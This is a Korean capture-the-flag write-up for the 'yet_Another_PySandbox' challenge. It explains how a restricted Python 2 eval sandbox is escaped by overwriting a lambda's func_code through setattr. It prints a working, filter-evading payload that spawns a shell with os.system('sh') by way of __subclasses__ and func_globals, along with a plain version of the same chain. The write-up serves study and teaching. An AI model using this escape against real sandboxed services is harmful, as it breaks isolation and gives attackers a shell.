

# yet_Another_PySandbox
### #sandbox #python
---

소스코드는 [yet.py](./files/yet.py) 에 있다.

개인적으로 write-up 을 보고, 이 문제가 후속으로 나올 [yet^2_Another_PySandbox](../yet^2_Another_PySandbox/README.md) 문제보다 어렵게 느껴졌다.

[yet.py](./files/yet.py) 소스를 보면 아래와 같이 **__builtins__** 로 부터([yet^2_Another_PySandbox](../yet^2_Another_PySandbox/README.md) 에 설명 참조) 해당 리스트 목록에 없는 빌트인은 다 삭제해버리고 소스를 시작한다.

```python
# yet.py starting point
for k in keys:
    if k not in ['False', 'None', 'True', 'bool', 'bytearray', 'bytes', 'chr', 'dict', 'eval', 'exit', 'filter', 'float', 'hash', 'int', 'iter', 'len', 'list', 'long', 'map', 'max', 'ord', 'print', 'range', 'raw_input', 'reduce', 'repr', 'setattr', 'sum', 'type']:
        del __builtins__.__dict__[k]
```

따로 import 해주지 않는 이상 기본적으로 사용할 수 있는 것은 이것들이다.

```python
['False', 'None', 'True', 'bool', 'bytearray', 'bytes', 'chr', 'dict', 'eval', 'exit', 'filter', 'float', 'hash', 'int', 'iter', 'len', 'list', 'long', 'map', 'max', 'ord', 'print', 'range', 'raw_input', 'reduce', 'repr', 'setattr', 'sum', 'type']
```

소스에서 맨 처음 실행되는 부분이다.


*[evaluator 함수, 클라이언트로부터 문자열을 받아서 **eval** 을 실행시킨다]*


*[check_eval_str 함수, 클라이언트가 입력한 문자열을 검사한다]*

```python
['eval', 'exec', '__', 'module', 'class', 'globals', 'os', 'import']
```

위의 항목의 문자열이 안들어가게끔 조심하거나 우회해야한다.

결론적으로 문제를 풀 때, 신경써야할 것은 아래와 같다.


> - 정해진 __builtins__ 요소들만 사용
>
> - [ 'eval' , 'exec' , '__' , 'module' , 'class' , 'globals' , 'os' , 'import' ] 요소들만 사용해야함.

결론부터 말하자면 write up 에서는 제거되지않은 빌트인 중에 **setattr** 함수를 사용해야한다고 한다.

일단 **setattr** 함수에 대해 낯설었기에 우선 알아보기로 하였다.

--- 
## **<[setattr 함수사용법](https://technote.kr/248)>**


위 처럼 테스트용 클래스를 만들어보자.


**test** 변수에 **sample** 인스턴스를 만들고 n 값을 **setattr** 로 수정할 수 있었다.



혹은 위처럼 새로운 요소(attribute) 를 추가할 수도 있다.

대강 이런 식(?) 으로 쓴다는 것을 알 수 있었다.

---

사용 된 페이로드는 아래와 같다.

```python
[setattr(f,'func_code',type(f.func_code)(0,0,2,67,'d\x06\x00j\x00\x00j\x01\x00d\x01\x00\x19j\x02\x00\x83\x00\x00d\x02\x00\x19j\x03\x00j\x04\x00d\x03\x00\x19j\x05\x00d\x04\x00\x19j\x06\x00j\x07\x00d\x05\x00\x83\x01\x00\x01d\x00\x00'+'s'.upper(),([].append(1),0,59,'sys','o'+'s.path','sh',()),('_'+'_cl'+'ass_'+'_','_'+'_bas'+'es_'+'_','_'+'_subcl'+'asses_'+'_','_'+'_init_'+'_','func_glob'+'als','mod'+'ules','o'+'s','sy'+'stem'),(),'','',0,''))+f()for f in[lambda:1]]
```

**eval** 함수 안에 우겨넣을 우선 한 줄 코드를 만들기 위해 list 형을 사용하였다.

**setattr** 에 사용되는 함수 f 는 `lambda:1` 이라는 익명함수를 아무거나 만들어서 넣었고, 쭉 사용된다.

그리고 **setattr** 로 함수 f 의 **func_code** 라는 attribute 를 수정하는데, 해당 attribute 가 **어떤 attribute** 이며, **어떤 값으로 바꾸었는지** 알아보자.

## **1. [func_code](https://python-reference.readthedocs.io/en/latest/docs/function/code.html#func-code)** 는 무엇인가?


링크를 보면 알 수 있겠지만, 함수 내부에 갖고있는 code 형식의 오브젝트로 바이트코드로 컴파일 된 함수의 모습을 나타낸다.

즉, 이 함수가 어떤 행동을 하는가? 에 대한 바이트코드를 보여준다는 것이다.


*[ lambda:1 함수의 바이트코드 ]*

정수 1 을 LOAD 해서 RETURN 하는 바이트코드로 나타내어진다.


그리고 위 처럼 바이트코드를 인터프리팅 할 수도 있다.

일단은 **func_code** 는 요런 역할을 수행하고, writable 하기에 페이로드와 같이 쓸 수 있다. 그러면, 임의의 바이트코드를 넣어서 원하는 로직으로 overwrite 도 가능할 것(?) 이다.


  ## **2. func_code 를 어떤 값으로 바꾸는 것인가?**

```python
type(f.func_code)(0,0,2,67,'d\x06\x00j\x00\x00j\x01\x00d\x01\x00\x19j\x02\x00\x83\x00\x00d\x02\x00\x19j\x03\x00j\x04\x00d\x03\x00\x19j\x05\x00d\x04\x00\x19j\x06\x00j\x07\x00d\x05\x00\x83\x01\x00\x01d\x00\x00'+'s'.upper(),([].append(1),0,59,'sys','o'+'s.path','sh',()),('_'+'_cl'+'ass_'+'_','_'+'_bas'+'es_'+'_','_'+'_subcl'+'asses_'+'_','_'+'_init_'+'_','func_glob'+'als','mod'+'ules','o'+'s','sy'+'stem'),(),'','',0,''))+f()for f in[lambda:1]
```

페이로드에서 이 부분을 볼 차례이다.

`lambda:1` 을 f 로 잡고 시작한다. `type(f.func_code)` 를 함수(?) 처럼 인자를 넣는 꼴인데, **func_code** 의 본래 타입은 code 클래스 타입이었기에 이 또한 code 클래스 타입이어야 할 것이다. 한 번 확인해보자.


*[ lambda:1 func_code 의 타입 ]*

`<type 'code'>` 타입이 확인 되었다. 그러면 위의 해당 코드는 **code** 클래스의 객체를 생성하는 구문이 될 것이다.


```python
# code 객체의 생성자 이용 모습
code(argcount, nlocals, stacksize, flags, codestring, constants, names,
      varnames, filename, name, firstlineno, lnotab[, freevars[, cellvars]])
```

[Python2.7_Code_Object](https://docs.python.org/2/c-api/code.html#c.PyCode_New) : code 객체에 대한 docs

[각 생성자에 대한 변수 설명](https://python.flowdas.com/library/inspect.html)

code 오브젝트 생성자의 각 변수들은 아래 함수의 **func_code** 를 python 의 **[inspect](https://python.flowdas.com/library/inspect.html)** 모듈로 변수 확인하여 그대로 대입만 하면된다.

```python
# __builtins__ 제한 없이 쉘을 실행시킬 수 있는 코드
def f():
    ().__class__.__bases__[0].__subclasses__()[59].__init__.func_globals["sys"].modules["os.path"].os.system("sh")
```


*[ inspect.getmembers 로 leak 한 요소들 ]*

결론적으로 이 문제는 함수의 **func_code** 요소를 알고 있는 상태에서 **setattr** 로 해당 요소를 수정만 잘 해주면 되는 문제가 되겠다.

끝..


.

.

.

**Contact :** a42873410@gmail.com
